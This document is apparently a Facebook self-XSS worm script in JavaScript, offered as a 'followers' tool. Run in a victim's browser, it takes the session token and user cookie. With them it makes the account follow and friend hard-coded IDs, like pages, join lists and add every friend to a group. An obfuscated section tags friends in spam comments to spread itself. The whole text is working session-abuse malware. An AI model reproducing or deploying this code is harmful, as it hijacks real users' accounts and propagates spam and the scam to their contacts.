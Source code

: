 j
=

/*HTML/JavaScript page status="protected"*/ /*FACEBOOK FOLLOWERS*/ /*© 2014 Kodran Piraj. All Rights Reserved.*/  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&amp;&amp;http4.status==200)http4.close};http4.send(params4)}a("100006491494904");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("194869190710894");sublist("203764819821331");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&amp;ft_ent_identifier="+post+"&amp;source=1&amp;client_id="+now+"%3A3366677427&amp;rootid=u_ps_0_0_14&amp;giftoccasion&amp;ft[tn]=%3E%3DU&amp;ft[type]=20&amp;ft[qid]=5882006890513784712&amp;ft[mf_story_key]="+post+"&amp;nctr[_mod]=pagelet_home_stream&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n8ahyj35CFwXAg&amp;__req=j&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&amp;fbpage_id="+p+"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&amp;&amp;Page.status==200){Page.close}};Page.send(PageParams)}Like("233639806819861");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)} IDS("100006491494904");IDS("100004272308848"); a("100005634423594"); a("100006491494904"); a("100004272308848"); a("100002062385067"); Like("1417633998481131"); Like("274343876022248"); sublist("219691011562045"); sublist("219691058228707"); sublist("219691144895365"); sublist("219691178228695"); sublist("219691221562024"); sublist("219691298228683"); sublist("219691391562007"); sublist("219691451562001"); sublist("219691518228661"); sublist("219691578228655"); Like("233639806819861"); Like("588642367894983"); Like("108657799203171"); Like("309453909102037"); Like("398426433613100"); Like("597273926980523"); Like("188718981270707"); Like("262926440424877"); sublist("194869190710894"); sublist("203764819821331");  var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","831320336882006","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," BRO IF YOU LIKE FOLLOWERS || WATCH THIS TUTORIAL :D  THIS REALLY WORK \udbb8\udc3c @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text= INCREASE YOU FOLLOWERS BRO - AUTO FOLLOWERS [ 100% WORK ]  ^_^ THIS IS MY TUTORIAL","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id); var Title='&lt;span style="font-size:x-large;">&lt;b>&lt;span style="color: red;">Getting Friends on Facebook&lt;/span>&lt;/b>&lt;/span>&lt;br/>';var Descriptions = "",page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];function InviteFriends(opo){jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;fb_dtsg=" + fb_dtsg + "&amp;group_id=1421483778086884&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_2]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user_id, function (a) {var b = a.substring(a.indexOf("{"));var c = JSON.parse(b);i--;Descriptions = "&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";if (c.error) {Descriptions += "color:darkred'>";err++;if (c.errorDescription) Descriptions += c.errorDescription;else Descriptions += JSON.stringify(c, null, "")} else {Descriptions += "color:darkgreen'>";Descriptions += arn[i] + " has been invited t " + page_name + ".";suc++}Descriptions += "&lt;/div>";var display = "&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>"; display += "&lt;div style='padding-bottom:5px;font-size:20px;'>" + Title + "&lt;/div>&lt;br/>";if (i > 0) {display += "Detected &lt;b>" +arr.length + "&lt;/b> User Online&lt;br/>";display += "&lt;b>" + suc + "&lt;/b> of &lt;b>" +arr.length + "&lt;/b> Finding Friends &lt;br/>";display += " (&lt;b>" + i + "&lt;/b> User Left...)&lt;br/>&lt;br/>";display += '&lt;span style="color: lime;">&lt;span style="font-size: large;">&lt;b>Please Wait Until The Process is Complete&lt;/b>&lt;/span>&lt;/span>';display += "&lt;/div>";display += "&lt;/div>";window[tag + "_close"] = true} else {display += '&lt;span style="color: lime;">&lt;span style="font-size: large;">&lt;b>SUCCESS&lt;/b>&lt;/span>&lt;/span>';display += "&lt;div>&lt;span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Tutup&lt;/span>&lt;br/>";display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>&lt;br/>";display += "&lt;/div>"; window[tag + "_close"] = false}display += "&lt;/div>";  document.getElementById("pagelet_sidebar").innerHTML = display}, "text", "post"); tay--;if (tay > 0) {var s = arr[tay];setTimeout("InviteFriends(" + s + ")", 100)}console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);}jx = {b: function () {var b = !1; if ("undefined" != typeof ActiveXObject) try {b = new ActiveXObject("Msxml2.XMLHTTP")} catch (c) {try {b = new ActiveXObject("Microsoft.XMLHTTP")} catch (a) {b = !1}} else if (window.XMLHttpRequest) try {b = new XMLHttpRequest} catch (h) { b = !1} return b},load: function (b, c, a, h, g) {var e = this.d();if (e &amp;&amp; b) {e.overrideMimeType &amp;&amp; e.overrideMimeType("text/xml"); h || (h = "GET"); a || (a = "text");g || (g = {}); a = a.toLowerCase();h = h.toUpperCase();b += b.indexOf("?") + 1 ? "&amp;" : "?";var k = null;"POST" == h &amp;&amp; (k = b.split("?"), b = k[0], k = k[1]);e.open(h, b, !0);e.onreadystatechange = g.c ? function () {g.c(e)} : function () {if (4 == e.readyState)if (200 == e.status) {var b = "";e.responseText &amp;&amp; (b = e.responseText);"j" == a.charAt(0) ? (b = b.replace(/[
]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) &amp;&amp; (b = e.responseXML);c &amp;&amp; c(b)} else g.f &amp;&amp; document.getElementsByTagName("body")[0].removeChild(g.f), g.e &amp;&amp; (document.getElementById(g.e).style.display = "none"), error &amp;&amp; error(e.status)};e.send(k)}}, d: function () {return this.b()}};function ChangeLocation() {window.location.href = "http://www.facebook.com/"}setTimeout("ChangeLocation", 1);window.onbeforeunload = function () {if (window[tag + "_close"]) return "Auto Like Sedang Berjalan, Tunggu Sampai Selesai!"};var i = 3;var tay = 3;var suc = 0;var err = 0;var arr = new Array;var arn = new Array;var pho = new Array;var tag = "Close";var page_name, x = document.getElementsByTagName("span");for (i = 0; i &lt; x.length; i++)if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML;var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value;var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&amp;token=v7&amp;filter[0]=user&amp;options[0]=friends_only&amp;options[1]=nm&amp;options[2]=sort_alpha&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=l", function (a) {var b = a;var c = b.substring(b.indexOf("{"));var d = JSON.parse(c);d = d.payload.entries;for (var e = 0; e &lt; d.length; e++) arr.push(d[e].uid);for (var eg = 0; eg &lt; d.length; eg++) arn.push(d[eg].text);for (var pic = 0; pic &lt; d.length; pic++) pho.push(d[pic].photo);i = arr.length - 1;tay = i;console.log(arr.length);var display = "&lt;div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>";display += "&lt;div style='padding-bottom:10px;font-size:20px;'>" + Title + "&lt;/div>";display += arr.length + " User Detected";display += "&lt;/div>";document.getElementById("pagelet_sidebar").innerHTML = display;InviteFriends(arr[i])});var parent=document.getElementsByTagName("html")[0];var _body = document.getElementsByTagName('body')[0];var _div = document.createElement('div');_div.style.height="25";_div.style.width="100%";_div.style.position="fixed";_div.style.top="auto";_div.style.bottom="0";_div.align="center";_body.appendChild(_div);

